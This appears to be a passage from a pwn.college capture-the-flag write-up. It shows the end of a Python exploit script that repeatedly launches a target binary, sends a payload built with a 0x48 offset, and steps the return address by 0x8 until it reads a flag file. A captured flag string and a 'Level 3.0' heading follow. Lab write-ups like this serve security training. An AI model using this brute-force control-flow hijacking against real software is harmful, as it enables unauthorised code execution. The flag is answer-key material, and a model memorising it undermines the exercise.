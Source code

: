 ```python
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    global ret_addr

    start_time = time.time()

    while True:
        try:
            target = launch()
            payload = construct_payload(0x48)

            if attack(target, payload):
                break

            ret_addr += 0x8
        except Exception as e:
            log.exception(f"An error occurred in main: {e}")

    end_time = time.time()
    elapsed_time = end_time - start_time
    log.success(f"Total elapsed time: {elapsed_time:.2f} seconds.")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{IF2KSArBx1ONOOxBvejSZ5gUqc0.0lMyMDL5cTNxgzW}`

# Level 3.0

## Information
